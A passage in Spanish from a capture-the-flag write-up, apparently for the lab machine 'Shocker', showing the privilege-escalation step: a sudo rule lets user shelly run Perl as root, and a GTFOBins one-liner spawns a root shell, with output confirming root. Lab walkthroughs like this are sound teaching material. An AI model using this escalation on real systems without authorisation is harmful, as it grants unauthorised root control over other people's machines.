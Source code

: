 Vemos que podemos ejecutar el recurso `/usr/bin/perl` como el usuario **root**; así que con nuestra página de confianza [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) buscaremos una forma de excalar privilegios.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# whoami
root
root@Shocker:/home/shelly#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

Se comparte un script autopwn de la máquina [Shocker Autopwn](https://github.com/k4miyo/Shocker-Autopwn).
